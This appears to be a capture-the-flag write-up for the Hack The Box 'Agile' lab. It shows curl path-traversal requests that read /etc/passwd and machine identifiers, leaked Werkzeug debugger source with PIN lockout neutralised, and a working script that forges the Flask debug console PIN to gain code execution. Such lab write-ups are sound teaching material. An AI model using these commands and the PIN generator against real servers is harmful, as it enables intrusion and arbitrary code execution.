Agile

TOC
Port Scan
root@kali:~/htb/Machines/Agile# nmap -p- --min-rate 5000 -sVC --open 10.129.228.212
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-04 13:25 JST
Nmap scan report for 10.129.228.212
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 f4:bc:ee:21:d7:1f:1a:a2:65:72:21:2d:5b:a6:f7:00 (ECDSA)
|_ 256 65:c1:48:0d:88:cb:b9:75:a0:2c:a5:e6:37:7e:51:06 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://superpass.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.58 seconds
22/tcp SSH and 80/tcp HTTP is open.
In HTTP, it redirects http://superpass.htb so appending superpass.htb to /etc/hosts.
superpass.htb
GET http://superpass.htb/:

GET http://superpass.htb/account/register:

Register account.
Click the Add a password button, enter any characters in the Site, Username form, and click the edit icon (fa-edit in fontawesome) on the left to add the vault.

Click Export button, then look at this request and response via Burp Suite.
GET http://superpass.htb/vault/export

GET http://superpass.htb/download?fn=test1_export_e0f7f7b905.csv

Path Traversal
There is filename named test1_export_e0f7f7b905.csv in query string so try Path Traversal.
root@kali:~/htb/Machines/Agile# COOKIE="Cookie: remember_token=9|79c660e09910b5d14ba3fc32e01e7892b7fac5b9e507883bf51e8eda5127142f02da22ba24fced2768fd306cf0c23c3fdc68a320eb729f7679702499487fb5f7; session=.eJwljksOAyEIQO_CugsRVJjLTEQh7dbprJrevSY9wPt84Izl1xOO97r9AedrwgGlD-KZJQ9KTQZJhBInzFZqTSzVlJ361OQUI886kXIVClezFNKlZlF0y4GjmbP2xKotiuAmpGERFSkNtyg8Sms76IWJhLsp7JH78vW_Ufj-AGhQLjA.ZMyEZQ.mIaqOn74Xlf7IAzbswra5C2POIw"
root@kali:~/htb/Machines/Agile# curl -s -H "$COOKIE" 'http://superpass.htb/download?fn=../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
corum:x:1000:1000:corum:/home/corum:/bin/bash
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/bin/false
There is Path Traversal vulnerability in http://superpass.htb/download?fn=../etc/passwd URL.
Exploit Flask Debugging Feature
I noticed that I get a FileNotFoundError when I specify a non-existent file name for this parameter. Also I see the Traceback.

Looking at Traceback, I found the file named /app/venv/lib/python3.10/site-packages/flask/app.py.
This web application is built with Flask.
Also, /app/app/superpass/views/vault_views.py is there so I can get this acpplication source code via LFI vulnerability.
When I hover the cursor over the source code section in Traceback, the console icon appears on the right side, which I can click to display a PIN code entry form.

Enter the PIN code aaa, show Error: incorrect pin alert.

This feature is Flask Debug. If I know this PIN code for this, I can execute arbitrary code.
Werkzeug / Flask Debug - HackTricks
You can reverse the algorithm generating the console PIN. Inspect Werkzeug’s debug init.py file on server e.g. python3.5/site-packages/werkzeug/debug/init.py. You can view Werkzeug source code repo to check how the PIN is generated, but better to leak source code through file traversal vulnerability since versions likely differ.
Taking advantage of the Path Traversal vulnerability to get the code that is generating the pincode.
/app/venv/lib/python3.10/site-packages/werkzeug/debug/__init__.py
import getpass
import hashlib
import json
import os
import pkgutil
import re
import sys
import time
import typing as t
import uuid
from contextlib import ExitStack
from contextlib import nullcontext
from io import BytesIO
from itertools import chain
from os.path import basename
from os.path import join
from zlib import adler32
from .._internal import _log
from ..exceptions import NotFound
from ..http import parse_cookie
from ..security import gen_salt
from ..utils import send_file
from ..wrappers.request import Request
from ..wrappers.response import Response
from .console import Console
from .tbtools import DebugFrameSummary
from .tbtools import DebugTraceback
from .tbtools import render_console_html
if t.TYPE_CHECKING:
from _typeshed.wsgi import StartResponse
from _typeshed.wsgi import WSGIApplication
from _typeshed.wsgi import WSGIEnvironment
# A week
PIN_TIME = 60 * 60 * 24 * 7
def hash_pin(pin: str) -> str:
return hashlib.sha1(f"{pin} added salt".encode("utf-8", "replace")).hexdigest()[:12]
_machine_id: t.Optional[t.Union[str, bytes]] = None
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id
if _machine_id is not None:
return _machine_id
def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""
# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue
if value:
linux += value
break
# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass
if linux:
return linux
# On OS X, use ioreg to get the computer's serial number.
try:
# subprocess may not be available, e.g. Google App Engine
# https://github.com/pallets/werkzeug/issues/925
from subprocess import Popen, PIPE
dump = Popen(
["ioreg", "-c", "IOPlatformExpertDevice", "-d", "2"], stdout=PIPE
).communicate()[0]
match = re.search(b'"serial-number" = <([^>]+)', dump)
if match is not None:
return match.group(1)
except (OSError, ImportError):
pass
# On Windows, use winreg to get the machine guid.
if sys.platform == "win32":
import winreg
try:
with winreg.OpenKey(
winreg.HKEY_LOCAL_MACHINE,
"SOFTWARE\\Microsoft\\Cryptography",
0,
winreg.KEY_READ | winreg.KEY_WOW64_64KEY,
) as rk:
guid: t.Union[str, bytes]
guid_type: int
guid, guid_type = winreg.QueryValueEx(rk, "MachineGuid")
if guid_type == winreg.REG_SZ:
return guid.encode("utf-8")
return guid
except OSError:
pass
return None
_machine_id = _generate()
return _machine_id
class _ConsoleFrame:
"""Helper class so that we can reuse the frame console code for the
standalone console.
"""
def __init__(self, namespace: t.Dict[str, t.Any]):
self.console = Console(namespace)
self.id = 0
def eval(self, code: str) -> t.Any:
return self.console.eval(code)
def get_pin_and_cookie_name(
app: "WSGIApplication",
) -> t.Union[t.Tuple[str, str], t.Tuple[None, None]]:
"""Given an application object this returns a semi-stable 9 digit pin
code and a random key. The hope is that this is stable between
restarts to not make debugging particularly frustrating. If the pin
was forcefully disabled this returns `None`.
Second item in the resulting tuple is the cookie name for remembering.
"""
pin = os.environ.get("WERKZEUG_DEBUG_PIN")
rv = None
num = None
# Pin was explicitly disabled
if pin == "off":
return None, None
# Pin was provided explicitly
if pin is not None and pin.replace("-", "").isdecimal():
# If there are separators in the pin, return it directly
if "-" in pin:
rv = pin
else:
num = pin
modname = getattr(app, "__module__", t.cast(object, app).__class__.__module__)
username: t.Optional[str]
try:
# getuser imports the pwd module, which does not exist in Google
# App Engine. It may also raise a KeyError if the UID does not
# have a username, such as in Docker.
username = getpass.getuser()
except (ImportError, KeyError):
username = None
mod = sys.modules.get(modname)
# This information only exists to make the cookie unique on the
# computer, not as a security feature.
probably_public_bits = [
username,
modname,
getattr(app, "__name__", type(app).__name__),
getattr(mod, "__file__", None),
]
# This information is here to make it harder for an attacker to
# guess the cookie name. They are unlikely to be contained anywhere
# within the unauthenticated debug page.
private_bits = [str(uuid.getnode()), get_machine_id()]
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode("utf-8")
h.update(bit)
h.update(b"cookiesalt")
cookie_name = f"__wzd{h.hexdigest()[:20]}"
# If we need to generate a pin we salt it a bit more so that we don't
# end up with the same value and generate out 9 digits
if num is None:
h.update(b"pinsalt")
num = f"{int(h.hexdigest(), 16):09d}"[:9]
# Format the pincode in groups of digits for easier remembering if
# we don't have a result yet.
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = "-".join(
num[x : x + group_size].rjust(group_size, "0")
for x in range(0, len(num), group_size)
)
break
else:
rv = num
return rv, cookie_name
class DebuggedApplication:
"""Enables debugging support for a given application::
from werkzeug.debug import DebuggedApplication
from myapp import app
app = DebuggedApplication(app, evalex=True)
The ``evalex`` argument allows evaluating expressions in any frame
of a traceback. This works by preserving each frame with its local
state. Some state, such as :doc:`local`, cannot be restored with the
frame by default. When ``evalex`` is enabled,
``environ["werkzeug.debug.preserve_context"]`` will be a callable
that takes a context manager, and can be called multiple times.
Each context manager will be entered before evaluating code in the
frame, then exited again, so they can perform setup and cleanup for
each call.
:param app: the WSGI application to run debugged.
:param evalex: enable exception evaluation feature (interactive
debugging). This requires a non-forking server.
:param request_key: The key that points to the request object in this
environment. This parameter is ignored in current
versions.
:param console_path: the URL for a general purpose console.
:param console_init_func: the function that is executed before starting
the general purpose console. The return value
is used as initial namespace.
:param show_hidden_frames: by default hidden traceback frames are skipped.
You can show them by setting this parameter
to `True`.
:param pin_security: can be used to disable the pin based security system.
:param pin_logging: enables the logging of the pin system.
.. versionchanged:: 2.2
Added the ``werkzeug.debug.preserve_context`` environ key.
"""
_pin: str
_pin_cookie: str
def __init__(
self,
app: "WSGIApplication",
evalex: bool = False,
request_key: str = "werkzeug.request",
console_path: str = "/console",
console_init_func: t.Optional[t.Callable[[], t.Dict[str, t.Any]]] = None,
show_hidden_frames: bool = False,
pin_security: bool = True,
pin_logging: bool = True,
) -> None:
if not console_init_func:
console_init_func = None
self.app = app
self.evalex = evalex
self.frames: t.Dict[int, t.Union[DebugFrameSummary, _ConsoleFrame]] = {}
self.frame_contexts: t.Dict[int, t.List[t.ContextManager[None]]] = {}
self.request_key = request_key
self.console_path = console_path
self.console_init_func = console_init_func
self.show_hidden_frames = show_hidden_frames
self.secret = gen_salt(20)
self._failed_pin_auth = 0
self.pin_logging = pin_logging
if pin_security:
# Print out the pin for the debugger on standard out.
if os.environ.get("WERKZEUG_RUN_MAIN") == "true" and pin_logging:
_log("warning", " * Debugger is active!")
if self.pin is None:
_log("warning", " * Debugger PIN disabled. DEBUGGER UNSECURED!")
else:
_log("info", " * Debugger PIN: %s", self.pin)
else:
self.pin = None
@property
def pin(self) -> t.Optional[str]:
if not hasattr(self, "_pin"):
pin_cookie = get_pin_and_cookie_name(self.app)
self._pin, self._pin_cookie = pin_cookie # type: ignore
return self._pin
@pin.setter
def pin(self, value: str) -> None:
self._pin = value
@property
def pin_cookie_name(self) -> str:
"""The name of the pin cookie."""
if not hasattr(self, "_pin_cookie"):
pin_cookie = get_pin_and_cookie_name(self.app)
self._pin, self._pin_cookie = pin_cookie # type: ignore
return self._pin_cookie
def debug_application(
self, environ: "WSGIEnvironment", start_response: "StartResponse"
) -> t.Iterator[bytes]:
"""Run the application and conserve the traceback frames."""
contexts: t.List[t.ContextManager[t.Any]] = []
if self.evalex:
environ["werkzeug.debug.preserve_context"] = contexts.append
app_iter = None
try:
app_iter = self.app(environ, start_response)
yield from app_iter
if hasattr(app_iter, "close"):
app_iter.close() # type: ignore
except Exception as e:
if hasattr(app_iter, "close"):
app_iter.close() # type: ignore
tb = DebugTraceback(e, skip=1, hide=not self.show_hidden_frames)
for frame in tb.all_frames:
self.frames[id(frame)] = frame
self.frame_contexts[id(frame)] = contexts
is_trusted = bool(self.check_pin_trust(environ))
html = tb.render_debugger_html(
evalex=self.evalex,
secret=self.secret,
evalex_trusted=is_trusted,
)
response = Response(html, status=500, mimetype="text/html")
try:
yield from response(environ, start_response)
except Exception:
# if we end up here there has been output but an error
# occurred. in that situation we can do nothing fancy any
# more, better log something into the error log and fall
# back gracefully.
environ["wsgi.errors"].write(
"Debugging middleware caught exception in streamed "
"response at a point where response headers were already "
"sent.\n"
)
environ["wsgi.errors"].write("".join(tb.render_traceback_text()))
def execute_command( # type: ignore[return]
self,
request: Request,
command: str,
frame: t.Union[DebugFrameSummary, _ConsoleFrame],
) -> Response:
"""Execute a command in a console."""
contexts = self.frame_contexts.get(id(frame), [])
with ExitStack() as exit_stack:
for cm in contexts:
exit_stack.enter_context(cm)
return Response(frame.eval(command), mimetype="text/html")
def display_console(self, request: Request) -> Response:
"""Display a standalone shell."""
if 0 not in self.frames:
if self.console_init_func is None:
ns = {}
else:
ns = dict(self.console_init_func())
ns.setdefault("app", self.app)
self.frames[0] = _ConsoleFrame(ns)
is_trusted = bool(self.check_pin_trust(request.environ))
return Response(
render_console_html(secret=self.secret, evalex_trusted=is_trusted),
mimetype="text/html",
)
def get_resource(self, request: Request, filename: str) -> Response:
"""Return a static resource from the shared folder."""
path = join("shared", basename(filename))
try:
data = pkgutil.get_data(__package__, path)
except OSError:
return NotFound() # type: ignore[return-value]
else:
if data is None:
return NotFound() # type: ignore[return-value]
etag = str(adler32(data) & 0xFFFFFFFF)
return send_file(
BytesIO(data), request.environ, download_name=filename, etag=etag
)
def check_pin_trust(self, environ: "WSGIEnvironment") -> t.Optional[bool]:
"""Checks if the request passed the pin test. This returns `True` if the
request is trusted on a pin/cookie basis and returns `False` if not.
Additionally if the cookie's stored pin hash is wrong it will return
`None` so that appropriate action can be taken.
"""
if self.pin is None:
return True
val = parse_cookie(environ).get(self.pin_cookie_name)
if not val or "|" not in val:
return False
ts_str, pin_hash = val.split("|", 1)
try:
ts = int(ts_str)
except ValueError:
return False
if pin_hash != hash_pin(self.pin):
return None
return (time.time() - PIN_TIME) < ts
def _fail_pin_auth(self) -> None:
time.sleep(5.0 if self._failed_pin_auth > 5 else 0.5)
self._failed_pin_auth += 0
def pin_auth(self, request: Request) -> Response:
"""Authenticates with the pin."""
exhausted = False
auth = False
trust = self.check_pin_trust(request.environ)
pin = t.cast(str, self.pin)
# If the trust return value is `None` it means that the cookie is
# set but the stored pin hash value is bad. This means that the
# pin was changed. In this case we count a bad auth and unset the
# cookie. This way it becomes harder to guess the cookie name
# instead of the pin as we still count up failures.
bad_cookie = False
if trust is None:
self._fail_pin_auth()
bad_cookie = True
# If we're trusted, we're authenticated.
elif trust:
auth = True
# If we failed too many times, then we're locked out.
elif self._failed_pin_auth > 10:
exhausted = True
# Otherwise go through pin based authentication
else:
entered_pin = request.args["pin"]
if entered_pin.strip().replace("-", "") == pin.replace("-", ""):
self._failed_pin_auth = 0
auth = True
else:
#pass
self._fail_pin_auth()
rv = Response(
json.dumps({"auth": auth, "exhausted": exhausted}),
mimetype="application/json",
)
if auth:
rv.set_cookie(
self.pin_cookie_name,
f"{int(time.time())}|{hash_pin(pin)}",
httponly=True,
samesite="Strict",
secure=request.is_secure,
)
elif bad_cookie:
rv.delete_cookie(self.pin_cookie_name)
return rv
def log_pin_request(self) -> Response:
"""Log the pin if needed."""
if self.pin_logging and self.pin is not None:
_log(
"info", " * To enable the debugger you need to enter the security pin:"
)
_log("info", " * Debugger pin code: %s", self.pin)
return Response("")
def __call__(
self, environ: "WSGIEnvironment", start_response: "StartResponse"
) -> t.Iterable[bytes]:
"""Dispatch the requests."""
# important: don't ever access a function here that reads the incoming
# form data! Otherwise the application won't have access to that data
# any more!
request = Request(environ)
response = self.debug_application
if request.args.get("__debugger__") == "yes":
cmd = request.args.get("cmd")
arg = request.args.get("f")
secret = request.args.get("s")
frame = self.frames.get(request.args.get("frm", type=int)) # type: ignore
if cmd == "resource" and arg:
response = self.get_resource(request, arg) # type: ignore
elif cmd == "pinauth" and secret == self.secret:
response = self.pin_auth(request) # type: ignore
elif cmd == "printpin" and secret == self.secret:
response = self.log_pin_request() # type: ignore
elif (
self.evalex
and cmd is not None
and frame is not None
and self.secret == secret
and self.check_pin_trust(environ)
):
response = self.execute_command(request, cmd, frame) # type: ignore
elif (
self.evalex
and self.console_path is not None
and request.path == self.console_path
):
response = self.display_console(request) # type: ignore
return response(environ, start_response)
Reads the code and collects the parameters necessary for PIN code generation.
Foothold
probably_public_bits
probably_public_bits is array which has 4 elements.
- username is
"www-data" - modname is
"flask.app" getattr(app, '__name__', getattr(app.__class__, '__name__'))is"wsgi_app"getattr(mod, '__file__', None)is"/app/venv/lib/python3.10/site-packages/flask/app.py"
private_bits
private_bits is array which has 2 elements.
root@kali:~/htb/Machines/Agile# curl -s -H "$COOKIE" 'http://superpass.htb/download?fn=../sys/class/net/eth0/address'
00:50:56:b9:ce:18
root@kali:~/htb/Machines/Agile# python3 -c 'print(0x005056b9ce18)'
345052401176
private_bits first element is "345052401176".
# excerpted /app/venv/lib/python3.10/site-packages/werkzeug/debug/__init__.py
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
# (snip)
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue
if value:
linux += value
break
Since /etc/machine-id is readable, /proc/sys/kernel/random/boot_id is not included as a parameter.
# excerpted /app/venv/lib/python3.10/site-packages/werkzeug/debug/__init__.py
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass
if linux:
return linux
# (snip)
get_machine_id() return is a concatenation of:
- /etc/machine-id value
- The third element of the /proc/self/cgroup value, separated by a slash.
root@kali:~/htb/Machines/Agile# curl -s -H "$COOKIE" 'http://superpass.htb/download?fn=../etc/machine-id'
ed5b159560f54721827644bc9b220d00
root@kali:~/htb/Machines/Agile# curl -s -H "$COOKIE" 'http://superpass.htb/download?fn=../proc/self/cgroup'
0::/system.slice/superpass.service
private_bits second element is "ed5b159560f54721827644bc9b220d00superpass.service".
Generate PIN
generate-pincode.py
import hashlib
from itertools import chain
probably_public_bits = [
"www-data", # username
"flask.app", # modname
"wsgi_app", # getattr(app, '__name__', getattr(app.__class__, '__name__'))
"/app/venv/lib/python3.10/site-packages/flask/app.py", # getattr(mod, '__file__', None),
]
private_bits = [
"345052401176", # str(uuid.getnode())
"ed5b159560f54721827644bc9b220d00superpass.service", # get_machine_id()
]
# h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode("utf-8")
h.update(bit)
h.update(b"cookiesalt")
cookie_name = "__wzd" + h.hexdigest()[:20]
num = None
if num is None:
h.update(b"pinsalt")
num = f"{int(h.hexdigest(), 16):09d}"[:9]
rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = "-".join(
num[x : x + group_size].rjust(group_size, "0")
for x in range(0, len(num), group_size)
)
break
else:
rv = num
print(rv)
Implementing generate-pincode.py and execute it, then I got 209-876-435.
So enter this PIN code to Debug Console, allowing to execute arbitrary code.
